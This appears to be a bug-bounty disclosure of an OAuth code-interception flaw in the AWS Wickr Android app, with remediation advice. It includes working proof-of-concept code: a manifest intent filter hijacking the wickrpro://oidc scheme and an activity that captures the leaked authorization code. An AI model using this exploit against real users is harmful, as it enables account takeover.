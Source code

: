 # Title: Account Takeover Due to Incorrect Implementation of Android App Links in AWS Wickr (com.wickr.pro)
---


# What i was able to do:
I was able to steal to the code of a user (myself), With this code, I gained full access to the user’s account, performing a complete Account Takeover.  

---


## POC:


---


# Description:
The core issue lies in the assumption made during the authentication flow, where ownership of the custom scheme specified in the `redirect_uri` is presumed to be exclusively tied to the legitimate client application. 

## Redirection Flow:

**Inital** --> https://wickr-guest-access-pro-prod.auth.us-east-1.amazoncognito.com/login?redirect_uri=https://messaging-pro-prod.wickr.com/deeplink/oidc.php&client_id=5kgp122go99k6mfdqtnvqfmsts&response_type=code&state=IUDsNsCe_8y4bVrh6GiODg&nonce=x4JOMpgDcyGbmCS2KpGc_g&scope=email%20profile%20openid&code_challenge=PYthl9xQJphzK8tfeqY4HXFbUrugbpqpZ-AnNLE91D8&code_challenge_method=S256

**Which Redirects to** --> https://messaging-pro-prod.wickr.com/deeplink/oidc.php

**Final Redirection to App** ---> wickrpro://oidc?step=3


Now Here, when `wickrpro://oidc` is used, it is assumed that `wickrpro://oidc` only belongs to the AWS Wickr app, since the app configured this to this custom scheme as part of the authentication process.

However, The problem with this approach is that any application on the user's device can potentially register this custom scheme, thereby receiving the authentication code that was intended for the AWS wickr app.

This allows two applications to potentially register the same custom URI scheme. If both apps use identical attributes (e.g., scheme, host, port, or path), the system will prompt the user to choose which app should handle the authentication response. This opens the door for attackers to craft a malicious APK that masquerades as the legitimate app, intercepting the authentication code and redirecting it to their exploitative app instead.

---


# Steps to reproduce:

To exploit this in AWS Wickr app you need to create an exploit apk, follow the below steps:

1. Create  an Android Studio Project
1. Create an empty Activity
1. Go to *AndroidManifest.xml* file and add an intent filter as shown below inside your main activity, so that the system automatically routes those URL intents to your app (exploit app).

```
            <intent-filter>
                <action
                    android:name="android.intent.action.VIEW" />
                <category
                    android:name="android.intent.category.DEFAULT" />
                <category
                    android:name="android.intent.category.BROWSABLE" />
                <data
                    android:scheme="wickrpro"
                    android:host="oidc" />
            </intent-filter>

```

1. Add the following code to MainActivity.java and build the APK.

```
import android.content.ClipData;
import android.content.ClipboardManager;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import android.widget.TextView;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        Uri data;
        super.onCreate(bundle);
        setContentView(R.layout.activity_main);
        TextView textView = (TextView) findViewById(R.id.titleTextView);
        TextView textView2 = (TextView) findViewById(R.id.textView);
        Button button = (Button) findViewById(R.id.copyButton);
        button.setVisibility(8);
        Intent intent = getIntent();
        if (!"android.intent.action.VIEW".equals(intent.getAction()) || (data = intent.getData()) == null) {
            return;
        }
        final String uri = data.toString();
        textView.setText("OAuth Code Leaked Successfully");
        textView2.setText(uri);
        button.setVisibility(0);
        button.setOnClickListener(new View.OnClickListener() { // from class: com.oauth.exploitfb1.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                ((ClipboardManager) MainActivity.this.getSystemService("clipboard")).setPrimaryClip(ClipData.newPlainText("URL", uri));
                Toast.makeText(MainActivity.this, "Data copied to clipboard", 0).show();
            }
        });
        Toast.makeText(this, "Data received", 0).show();
    }
}
```

---


# Recommendation:

- App to app integration like Google Identity Services and Facebook Express Login for Android.

- Android's verifiable AppLinks - https://developer.android.com/training/app-links/verify-android-applinks)

---


# Reference:
- [https://developers.googleblog.com/2023/10/enhancing-oauth-app-impersonation-protections.html](https://developers.googleblog.com/2023/10/enhancing-oauth-app-impersonation-protections.html)

- [https://developer.android.com/training/app-links/verify-android-applinks](https://developer.android.com/training/app-links/verify-android-applinks)

- [https://blog.ostorlab.co/one-scheme-to-rule-them-all.html](https://blog.ostorlab.co/one-scheme-to-rule-them-all.html)  
